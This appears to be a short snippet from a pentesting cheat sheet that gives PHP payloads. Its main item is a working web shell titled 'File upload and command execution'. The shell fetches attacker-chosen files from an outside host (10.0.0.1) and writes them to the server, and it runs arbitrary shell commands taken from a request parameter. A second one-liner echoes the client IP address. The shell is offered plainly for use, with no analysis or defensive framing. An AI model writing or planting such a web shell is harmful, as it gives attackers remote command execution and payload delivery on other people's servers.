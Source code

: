 ## PHP

### File upload and command execution
```php
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents("http://10.0.0.1/" . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
} ?>
```

### IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

